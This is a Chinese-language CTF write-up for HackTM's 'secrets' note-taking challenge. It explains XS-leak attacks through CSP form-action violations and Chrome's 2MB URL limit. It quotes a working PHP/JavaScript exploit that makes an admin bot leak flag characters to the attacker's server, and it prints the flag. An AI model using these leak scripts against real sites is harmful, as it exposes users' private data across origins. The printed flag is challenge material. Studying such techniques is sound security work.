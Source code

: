 # secrets

比赛后未找到题目文件，环境还开着但是也没啥用了，很快就会作废。记录[wp](https://www.xanhacks.xyz/p/secrets-hacktmctf/)。

此题为[XS-leak](https://xsleaks.dev/)的其中一个技巧：[Cross-Origin Redirects and CSP Violations](https://xsleaks.dev/docs/attacks/navigations/#cross-origin-redirects)。原题的环境是一个笔记记录网站，同时有个bot扮演admin的身份。注册登录后可以写笔记以及根据笔记内容查找自己的笔记。此题的第一个考点：要干啥？有bot，肯定是xss这类题型，接下来就是根据题目的细节判断是什么考点了。查看cookie的属性，发现设置得很不安全：

- SameSite: None: The cookie will be attached from a request send from every site.
- Secure: false: The cookie can be used by an HTTP server (no HTTPS requirement).

关于考点，更明显的特征是查询成功与失败的url重定向结果。如果我们查询的内容（query）出现在我们写过的笔记里，url为`http://results.wtl.pw/results?ids=<note_uuid>&query=<query>`；如果没有，url为`http://secrets.wtl.pw/#<query>`。此时可以猜测我们需要获得admin bot笔记里的内容。

所谓“Cross-Origin Redirects and CSP Violations”其实不难理解。如果我们在html文件的开头加上这么一句：

```html
<meta http-equiv="Content-Security-Policy" content="form-action http://secrets.wtl.pw">
```

这个文件中的form只能提交至`http://secrets.wtl.pw`及其子页面（如`http://secrets.wtl.pw/search`)，其他的就不行，会触发js里的一个事件：“securitypolicyviolation”。看下面一个例子：

```html
<!-- Set the Content-Security-Policy to only allow secrets.wtl.pw -->
<meta http-equiv="Content-Security-Policy" content="form-action http://secrets.wtl.pw">
<form action="http://secrets.wtl.pw/search" method="GET">
    <input type="text" name="query" value="HackTM{">
</form>

<script>
// Listen for a CSP violation event
document.addEventListener('securitypolicyviolation', () => {
    // Valid search query will be catch here
    console.log("Detected a redirect to somewhere other than secrets.wtl.pw");
});
// Try to get secrets.wtl.pw via a form. If it redirects to another cross-site website
// it will trigger a CSP violation event
document.forms[0].submit();
</script>
```

如果我们查询的值“HackTM{”能查出来结果，url就会被重定向至`http://results.wtl.pw/results?ids=<note_uuid>&query=<query>`，不是`http://secrets.wtl.pw`，便会触发事件；反之若没查出来结果，网页正常重定向至`http://secrets.wtl.pw/#<query>`，无事件触发。注意只适用于基于Chromium的浏览器，FireFox就不行。

那情况就很明朗了。我们在自己的服务器部署一个不停发送query的文件，然后把服务器的url发给bot。bot访问后就会不断进行query，因为cookie的不安全设置，query时带的是bot的cookie，就能查询flag相关值了。这里给出wp作者的脚本。

```php
<?php
$test = isset($_GET['test']) ? $_GET['test'] : '';
$flag = isset($_GET['flag']) ? $_GET['flag'] : '';

if (!substr($flag, 0, strlen($flag)) === substr("HackTM{", 0, strlen($flag))) {
    die();
}
if (!substr($test, 0, strlen($test)) === substr("HackTM{", 0, strlen($test))) {
    die();
}
?>

<?php if ($flag !== ''): ?>
<script>
let charset = "abcdefghijklmnopqrstuvwxyzHTM0123456789{}_";
for (let i = 0; i < charset.length; i++) {
    window.open("http://xpl.xanhacks.xyz/?test=" + "<?= $flag ?>" + charset[i]);
}
</script>
<?php endif; ?>
<?php if ($flag !== '') { die(); } ?>

<meta http-equiv="Content-Security-Policy" content="form-action http://secrets.wtl.pw">
<form action="http://secrets.wtl.pw/search" method="get">
    <input type="text" name="query" value="<?= $test ?>">
</form>

<script>
    document.addEventListener('securitypolicyviolation', () => {
        window.location.href="http://xpl.xanhacks.xyz/?flag=<?= $test ?>";
    });
    document.forms[0].submit();
</script>
```

另一个[wp](https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/secrets)则介绍了非预期解，利用了Chrome url只能有2mb大小的限制。如果我们强行访问`/search?query=<query>#AAA...[2MB]...AAA`，结果页面为`about:blank#blocked`。所以这有什么用？看下面的例子：

```js
//此时我们在wp界面的开发者工具的console中输入：
w=window.open("http://secrets.wtl.pw")
w.origin;//会报错
```

我们构造一个特别的url：

```js
let url = "http://secrets.wtl.pw/search?query=test#"
let w = window.open(url + "A".repeat(2 * 1024 * 1024 - url.length - 1))//这里正好2MB-1，暂时无事发生
```

这个url查询成功后会重定向至`http://results.wtl.pw/results?ids=<note UUIDs>&query=test#AAA...AAA`。问题来了，这url一加上个ids不就超过限制了吗？于是我们被重定向至`about:blank`页面。这个页面特殊的地方在于，它的origin属性是parent的，不会报错。

这时思路就出来了。我们不断构造向上面那样的payload，将带有payload的url发给bot。bot执行query，如果猜测的flag字符对了，访问origin属性不会报错；如果猜测的flag字符错了，访问origin会报错。根据此就能爆破flag了。

## Flag
> HackTM{pwnd_by_xsleaks_2d11eb9b}